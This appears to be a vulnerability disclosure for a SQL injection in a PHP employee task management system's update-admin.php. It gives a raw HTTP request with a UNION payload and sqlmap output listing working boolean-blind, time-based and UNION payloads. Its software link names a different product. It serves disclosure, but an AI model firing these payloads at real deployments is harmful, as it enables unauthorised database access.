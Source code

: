 # Exploit Title: employee task management system - SQLi

### Date: 
> March 15th, 2024

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [employee task management system](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### URL:
> [/update-admin.php?admin_id=1](http://localhost/taskmatic/update-admin.php?admin_id=1)
### Proof of Concept:
Review source code
![SQL](https://github.com/tht1997/WhiteBox/blob/main/sourcecodester/isadmin.png?raw=true)
\
Step 1. Go to URL edit: http://localhost/taskmatic/update-admin.php?admin_id=1
\
Step 2. Run with sqlmap

```
GET /taskmatic/update-admin.php?admin_id=-5619%27%20UNION%20ALL%20SELECT%20CONCAT%280x7170716271%2C%28CASE%20WHEN%20%28VERSION%28%29%20LIKE%200x254d61726961444225%29%20THEN%201%20ELSE%200%20END%29%2C0x7176707071%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--%20- HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/taskmatic/manage-admin.php
Cookie: PHPSESSID=au6ifo1ssaop7ilk8c4f09pj2j
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Connection: close
```

Step 3. sqlmap result

```
[20:03:10] [INFO] GET parameter 'admin_id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'admin_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: admin_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: admin_id=1' AND 4823=4823 AND 'fHuK'='fHuK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: admin_id=1' AND (SELECT 2812 FROM (SELECT(SLEEP(5)))yoFD) AND 'eLUj'='eLUj

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: admin_id=-5229' UNION ALL SELECT CONCAT(0x7170716271,0x684d74644f51547249684d4d6a4c52687374496a74464b7a64634664425751574f56575873794e50,0x7176707071),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[20:03:14] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.30, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
